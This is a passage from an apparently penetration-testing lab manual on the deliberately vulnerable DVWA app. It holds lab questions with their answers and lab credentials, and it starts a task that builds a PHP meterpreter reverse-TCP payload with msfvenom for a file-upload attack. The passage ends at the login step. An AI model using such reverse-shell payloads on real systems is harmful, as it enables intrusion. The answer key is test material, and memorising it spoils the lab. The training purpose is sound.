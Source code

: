 	48. Now, you may discontinue the session and log out of the web application. To do so, close the Remote Desktop Connection window. If a Your remote session will be disconnected notification appears, click OK.
	49. This concludes the demonstration of how to exploit a remote command execution vulnerability to compromise a target web server.
	50. Close all open windows and document all acquired information.
Question 14.2.7.1
Perform command-line execution on a vulnerability found in the DVWA web application (http://10.10.1.22:8080/dvwa/login.php). Enter the hostname of the Windows Server 2022 system. Note: the DVWA login credentials are gordonb/abc123.
Server2022
Question 14.2.7.2
Perform command-line execution on a vulnerability found in the DVWA web application (http://10.10.1.22:8080/dvwa/login.php). Enter the number of directories found in the C drive of the Windows Server 2022 system.
8
Task 8: Exploit a File Upload Vulnerability at Different Security Levels
Metasploit Framework is a tool for developing and executing exploit code against a remote target machine. It is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. It contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. Meterpreter is a Metasploit attack payload that provides an interactive shell that can be used to explore the target machine and execute code.
Here, we will use exploit a file upload vulnerability at different security levels of DVWA using Metasploit.
Before starting this task, ensure that the WampServer is running on the Windows Server 2022 machine.
	1. Click Parrot Security to switch to the Parrot Security machine.
	2. Click the MATE Terminal icon at the top of Desktop to open a Terminal window.
	
	3. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	4. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	5. Now, type cd and press Enter to jump to the root directory.
	
	6. In the Terminal window appears; type msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=4444 -f raw and press Enter.
Here, the IP address of the host machine is 10.10.1.13 (the Parrot Security machine).
	7. The raw payload is generated in the terminal window. Select the payload, right-click on it, and click Copy from the context menu to copy the payload, as shown in the screenshot.
	
	8. Now, in the terminal window, type cd /home/attacker/Desktop/ and press Enter to navigate to the Desktop.
	9. Type pluma upload.php and press Enter to launch the Pluma text editor.
	
	10. The Pluma text editor window appears; press Ctrl+V to paste the raw payload copied in Step 7, and then press Ctrl+S to save the context.
	
	11. Close all the open windows.
	12. Click the Firefox icon from the top section of Desktop, type http://10.10.1.22:8080/dvwa/login.php. Into the address bar and press Enter.
	13. The DVWA login page appears; enter the Username and Password as admin and password. Click the Login button.
If a Would you like Firefox to save this login notification appears at the top of the browser window, click Don’t Save.
	